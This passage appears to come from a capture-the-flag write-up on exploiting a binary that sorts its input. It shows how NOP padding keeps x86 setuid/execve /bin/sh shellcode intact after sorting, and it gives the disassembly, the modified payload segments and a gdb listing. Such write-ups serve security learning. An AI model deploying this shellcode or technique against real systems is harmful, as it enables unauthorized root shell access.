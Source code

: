 The last thing we need to worry about is our shellcode, since we will need to know where it is on the stack to execute it, and we also need to make sure it stays intact and in the correct order after it is sorted. The way I accomplished this is by appending the `0x90` byte a certain amount of times tot he front of certain parts of shellcode. This is because when executed `0x90` is the opcode for `NOP` which continues execution and doesn't effect our shellcode in any important way, and it will be evaluated as less than values starting with `0x804` so it won't affect the stack canary or what we did to write over the return address.

However when we insert the NOPs into our shellcode, we will have to rewrite/recompile the shellcode. The reason for this, is because if we just insert NOPs into random places, there is a good chance we will insert a NOP in the middle of an instruction, which will change what the instruction does. Also note, the base shellcode I did not write. I grabbed it from `http://shell-storm.org/shellcode/files/shellcode-599.php` and modified it. Also I found that this website which is an online x86/x64 decompiler/compiler helped `https://defuse.ca/online-x86-assembler.htm`:

here is the shellcode before we modified it:
```
0:  6a 17                   push   0x17
2:  58                      pop    eax
3:  31 db                   xor    ebx,ebx
5:  cd 80                   int    0x80
7:  50                      push   eax
8:  68 2f 2f 73 68          push   0x68732f2f
d:  68 2f 62 69 6e          push   0x6e69622f
12: 89 e3                   mov    ebx,esp
14: 99                      cdq
15: 31 c9                   xor    ecx,ecx
17: b0 0b                   mov    al,0xb
19: cd 80                   int    0x80 
```

This shellcode is `27` bytes. After we figure out how to split the individual commands up with `\x90`s in a way that the instructions will still execute properly, and after the sorting the shellcode will be in the proper order, we get the following segments:

```
0x9101eb51e1f7c931:

0x90909068732f2f68:

0x9090406e69622f68:

0x900080cd0bb0e389:
```

keep in mind, because of how the data is stored, the last four bytes will be executed first. After a lot of trial and error, we see that this is our shellcode:

```
gdb-peda$ x/16i 0xffff7ca0
   0xffff7ca0: xor    ecx,ecx
   0xffff7ca2: mul    ecx
   0xffff7ca4: push   ecx
   0xffff7ca5: jmp    0xffff7ca8
   0xffff7ca7: xchg   ecx,eax
   0xffff7ca8: push   0x68732f2f
   0xffff7cad: nop
   0xffff7cae: nop
   0xffff7caf: nop
   0xffff7cb0: push   0x6e69622f
   0xffff7cb5: inc    eax
   0xffff7cb6: nop
   0xffff7cb7: nop
   0xffff7cb8: mov    ebx,esp
   0xffff7cba: mov    al,0xb
   0xffff7cbc: int    0x80
```

